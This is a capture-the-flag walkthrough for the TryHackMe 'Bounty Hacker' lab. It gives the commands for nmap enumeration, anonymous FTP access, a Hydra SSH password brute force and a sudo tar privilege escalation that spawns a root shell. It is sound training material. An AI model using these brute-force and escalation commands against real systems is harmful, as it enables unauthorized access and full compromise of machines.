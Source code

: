 # This is a walkthrough for tryhackme's Bounty Hacker room.
URL = https://tryhackme.com/room/cowboyhacker

# Enumeration:-

Lets run quick nmap scan.
```bash
sudo nmap <ip>
```
This returned 3 open ports.
port      |service
----------|----------
21        |FTP
22        |SSH
80        |Web server

Let's enumerate ftp port first.
Connect to it. Type,
```bash
ftp <ip>
```
Login using anonymous name.
Now, let's view files using ls command.
There are two files named as locks.txt and task.txt.
Get them to your pc and see whats inside.
First one has a username and other has list of words which is a password list for bruteforcing.

# Gaining access:-

Since we have username and password list, let's do a bruteforcing attack using Hydra.
Hydra is a tool we are going to use to do bruteforcing.

Type:-
```bash
hydra -l <username> -P <password_list> -t 1 <ip> ssh
```

Now, we know the password.
Let's login over ssh.
Type:-
```bash
ssh <username>@<ip>
```
And enter the password you got.

# Privilege Escaltion:-

Type sudo -l and see that we can run tar app as a root.
Let's go to gtfobins and get the sudo exploit for tar.
If you can't find it here type:-
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Once you execute above command, you'll become a root user.

Congrats, now get the flags.
